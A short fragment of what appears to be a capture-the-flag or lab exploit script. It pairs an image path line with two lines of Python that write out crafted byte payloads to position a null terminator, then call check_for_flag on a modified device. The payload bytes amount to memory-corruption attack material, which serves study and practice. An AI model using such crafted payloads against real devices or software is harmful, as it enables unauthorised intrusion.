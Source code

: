 	# Write out the payloads.  Write more than needed to land the null byte string terminator in a safe spot.
	check_for_flag(modify_device(b'2',b'\x01\x85',b'\x0D\xF0\xAD\xBA\xA0\x08\x40\x06\x04\x08\x04\x20\xB0\x09\x60\x06\x40\x80\x0C\x20'))

